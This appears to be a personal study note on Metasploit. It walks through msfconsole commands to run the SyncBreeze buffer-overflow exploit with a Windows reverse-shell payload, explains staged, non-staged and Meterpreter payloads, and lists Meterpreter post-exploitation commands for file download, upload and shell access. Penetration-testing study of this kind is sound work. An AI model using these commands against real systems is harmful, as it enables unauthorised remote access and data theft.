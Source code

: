 ### exploit
contain exploit code for vulnerable applications and services

```
search syncbreeze
info exploit/windows/http/syncbreeze_bof
use exploit/windows/http/syncbreeze_bof
set payload windows/shell_reverse_tcp
set lhost
set rhost
check

```

### payloads
常用场景
client-side attack， backdoor， stand-alone as easy method  to get a payload from one machine to another

* Non-staged 
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
A non-staged payload is sent in its entirety along with the exploit. 

shell_xxx  

* Staged
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
shell/xxx 
In contrast, a staged payload is usually sent in two parts. The
first part contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it.

* Meterpreter
a multi-function payload that can be dynamically extended at run-time. 
In practice, this means that the Meterpreter shell provides more features and functionality than a regular command shell
offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine. 
These tools are especially useful in the post-exploitation phase.

```
search meterpreter type:payload

getuid
sysinfo
ls
pwd
download
upload c:\\Windows\\system32\\calc.exe /tmp/calc.exe

shell
```
